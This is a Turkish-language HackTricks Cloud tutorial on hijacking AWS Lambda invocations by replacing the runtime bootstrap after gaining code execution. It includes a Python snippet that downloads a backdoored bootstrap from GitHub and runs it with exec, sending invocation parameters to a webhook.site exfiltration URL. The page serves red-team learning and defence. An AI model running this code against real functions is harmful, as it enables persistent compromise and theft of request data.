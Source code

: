 # AWS - Lambda İsteklerini Çal

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking ipuçlarını paylaşın,** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Lambda Akışı

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**, **init** sürecine **çağrılar** gönderen konteyner dışındaki bir süreçtir.
2. Init süreci, bazı ilginç uç noktaları açığa çıkaran **9001** portunu dinler:
* **`/2018-06-01/runtime/invocation/next`** – bir sonraki çağrı olayını al
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – çağrı için işleyici yanıtını döndür
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – bir yürütme hatasını döndür
3. **bootstrap.py**, init sürecinden çağrıları alan bir döngüye sahiptir ve bunları işlemek için kullanıcı kodunu çağırır (**`/next`**).
4. Son olarak, **bootstrap.py** init'e **yanıt** gönderir.

Bootstrap'ın kullanıcı kodunu bir modül olarak yüklediğini unutmayın, bu nedenle kullanıcı kodu tarafından gerçekleştirilen herhangi bir kod yürütmesi aslında bu süreçte gerçekleşmektedir.

## Lambda İsteklerini Çalmak

Bu saldırının amacı, kullanıcı kodunun, savunmasız isteği işleyen **`bootstrap.py`** süreci içinde kötü niyetli bir **`bootstrap.py`** süreci çalıştırmasını sağlamaktır. Bu şekilde, **kötü niyetli bootstrap** süreci, istekleri işlemek için **init süreciyle** **iletişim kurmaya** başlayacakken, **meşru** bootstrap **tuzağa düşmüş** olarak kötü niyetli olanı çalıştıracak, böylece init sürecine istek sormayacaktır.

Bu, kullanıcı kodunun meşru **`bootstrap.py`** süreci tarafından yürütüldüğü için basit bir görevdir. Böylece saldırgan:

* **Init sürecine mevcut çağrının sahte bir sonucunu gönderir**, böylece init bootstrap sürecinin daha fazla çağrı beklediğini düşünür.
* **`/${invoke-id}/response`** adresine bir istek gönderilmelidir.
* Invoke-id, meşru **`bootstrap.py`** sürecinin yığınından [**inspect**](https://docs.python.org/3/library/inspect.html) python modülünü kullanarak (burada [önerildiği gibi](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) veya sadece tekrar **`/2018-06-01/runtime/invocation/next`** adresine istekte bulunarak elde edilebilir (burada [önerildiği gibi](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Bir sonraki çağrıları yönetecek kötü niyetli **`boostrap.py`**'yi çalıştırın.
* Gizlilik amacıyla, lambda çağrı parametrelerini saldırganın kontrolündeki bir C2'ye göndermek ve ardından istekleri normal şekilde işlemek mümkündür.
* Bu saldırı için, **`bootstrap.py`**'nin orijinal kodunu sistemden veya [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) üzerinden almak, kötü niyetli kodu eklemek ve mevcut lambda çağrısından çalıştırmak yeterlidir.

### Saldırı Adımları

1. Bir **RCE** açığı bulun.
2. **Kötü niyetli** bir **bootstrap** oluşturun (örneğin [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py)).
3. Kötü niyetli bootstrap'ı **çalıştırın**.

Bu eylemleri kolayca gerçekleştirebilirsiniz:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Daha fazla bilgi için [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher) adresini kontrol edin.

## Referanslar

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
